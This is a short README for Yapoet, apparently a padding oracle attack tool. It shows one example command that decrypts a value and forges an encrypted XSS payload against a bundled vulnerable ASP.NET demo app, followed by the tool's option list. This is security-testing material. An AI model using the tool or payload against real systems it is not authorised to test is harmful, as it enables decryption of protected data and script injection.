 Yapoet
======

Comprehensive description will be added later. Presently you can try to play with it against included example of a vulnerable web application:
```
\Examples\ASP.NET-Webforms\BuildAndRun.cmd
python yapoet.py -u http://localhost:8080/ -d "aEMei5bwchHQqb6rh17Irg==" -e "<script>alert(/XSS/)</script>" --data="__VIEWSTATE=&Answer=&EncryptedAnswer=%encrypted_data%"
```

Usage
=====
    yapoet.py [options]
    
    Options:
      -h, --help            show this help message and exit
      -u URL, --url=URL     Target URL (e.g. "http://host/?param1=value%2b1&param2=value%2b2")
      -d ENCRYPTED_DATA, --decrypt=ENCRYPTED_DATA
                            Base64-encoded data to decrypt
      -e PLAINTEXT_DATA, --encrypt=PLAINTEXT_DATA
                            Plaintext data to encrypt
      --data=POST_DATA      POST data (e.g. "param1=value%2b1&param2=value%2b1")
      --cookie=COOKIE       HTTP Cookie header value
      --block-size=BLOCK_SIZE
                            Cipher block size [default: 16]
    
    Please note that the value of at least one of the HTTP-request parameters in the URL, 
    POST_DATA or COOKIE options should be replaced with an %encrypted_data% placeholder.
